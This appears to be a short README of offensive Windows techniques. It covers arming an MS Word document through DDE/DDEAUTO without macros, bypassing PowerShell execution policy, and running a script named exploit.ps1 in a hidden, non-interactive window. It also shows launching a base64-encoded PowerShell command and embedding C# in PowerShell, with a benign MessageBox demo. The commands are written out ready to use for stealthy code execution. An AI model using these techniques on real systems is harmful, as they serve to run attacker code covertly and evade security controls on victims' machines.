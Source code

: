 ## MSWord-Code-Exec
Leverage Dynamic Data Exchange (DDE) through the following payloads to create an armed MS Word Document
without utilizing any macros (https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/) 
* DDEAUTO
* DDE
## Bypass PowerShell Execution Policy
> Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
## Instantiate PowerShell.exe with no execution policy to run a script of choice
> powershell.exe -executionpolicy bypass -windowstyle hidden -noninteractive -nologo -file "c:\temp\exploit.ps1"
## Encoded PowerShell Command
> powershell.exe –WindowStyle Hidden –noprofile –EncodedCommand <BASE64ENCODED>
## Embedding C# into PowerShell
> Add-Type -TypeDefinition @"
        using System;
        using System.Diagnostics;
        using System.Runtime.InteropServices;
  
        public static class User32
        {
              [DllImport("User32.dll", SetLastError=true, CharSet=CharSet.Unicode)]
              public static extern int MessageBoxW(
                              int hWnd,
                              string lpText,
                              string lpCaption,
                              int uType
              );
        }
  "@
  [User32]::MessageBoxW(0, "SensePost", 0x00000000L)
